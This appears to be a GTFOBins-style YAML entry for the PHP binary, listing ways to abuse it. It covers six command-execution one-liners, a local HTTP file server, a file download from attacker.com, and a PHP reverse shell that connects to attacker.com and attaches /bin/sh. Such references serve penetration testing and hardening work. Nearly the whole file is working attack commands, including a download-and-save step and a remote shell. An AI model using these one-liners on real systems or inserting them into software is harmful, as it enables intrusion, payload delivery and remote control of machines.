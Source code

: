 ```yaml
---
functions:
  exec-non-interactive:
    - code: |
        export CMD="ls /"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="ls /"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="ls /"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="ls /"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
    - code: |
        export CMD="ls /"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
    - code: |
        export CMD="ls /"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |-
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

